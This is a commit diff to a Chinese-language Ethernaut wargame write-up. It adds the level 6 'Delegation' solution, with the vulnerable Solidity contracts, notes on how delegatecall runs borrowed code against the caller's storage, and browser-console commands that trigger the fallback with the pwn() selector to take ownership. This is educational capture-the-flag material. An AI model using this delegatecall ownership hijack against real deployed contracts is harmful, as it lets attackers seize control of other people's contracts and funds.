

Before and after one commit to YanhuiJessica/Chictf-Writeups, an MkDocs documentation site: the page built from docs/wargames/ethernaut.md, in a window 1280 px wide and 1400 px high, scrolled down 8878 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 9508 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
ethernaut 6

````diff
--- a/docs/wargames/ethernaut.md
+++ b/docs/wargames/ethernaut.md
@@ -128,7 +128,7 @@ contract Fallback {
     ```js
     >> await contract.send(1)
     // 或
-    >> await contract.sendTransaction({value:1})
+    >> await contract.sendTransaction({value:1})  // 发起一个交易
 
     >> await contract.owner()
     ```
@@ -429,3 +429,63 @@ contract Token {
 // 转给自己的话，就先下溢出再上溢出了...
 >> await contract.transfer(<address>, 21)
 ```
+
+## 6. Delegation
+
+声明对合约实例的所有权
+
+```js
+// SPDX-License-Identifier: MIT
+pragma solidity ^0.6.0;
+
+contract Delegate {
+
+  address public owner;
+
+  constructor(address _owner) public {
+    owner = _owner;
+  }
+
+  function pwn() public {
+    owner = msg.sender;
+  }
+}
+
+contract Delegation {
+
+  address public owner;
+  Delegate delegate;
+
+  constructor(address _delegateAddress) public {
+    delegate = Delegate(_delegateAddress);
+    owner = msg.sender;
+  }
+
+  // 没有 payable，不能使用转账来触发 fallback
+  // 同时，通过转账来触发 fallback 函数不能加任何 data
+  fallback() external {
+    (bool result,) = address(delegate).delegatecall(msg.data);
+    if (result) {
+      this;
+    }
+  }
+}
+```
+
+- 代理调用只使用给定地址的代码，其他属性都取自当前合约
+- 使用合约 `Delegate` 的 `pwn` 函数来修改合约 `Delegation` 的所有者
+- 除了向合约转账会触发 `fallback` 函数外，若被调用的函数不存在同样会触发
+- 调用 `Delegation` 不存在的函数 `pwn` 来触发 `fallback` 函数，从而执行真正的 `pwn` 函数
+
+    ```js
+    // keccak256 即 sha3
+    >> await contract.sendTransaction({data: web3.utils.sha3("pwn()")})
+    >> await contract.owner()
+    ```
+
+- 代理调用功能强大且危险，慎用 👀
+
+### 参考资料
+
+- [SHA-3 - 维基百科，自由的百科全书](https://zh.wikipedia.org/wiki/SHA-3)
+- [sha3](https://web3js.readthedocs.io/en/v1.7.0/web3-utils.html?highlight=sha3#sha3)
````
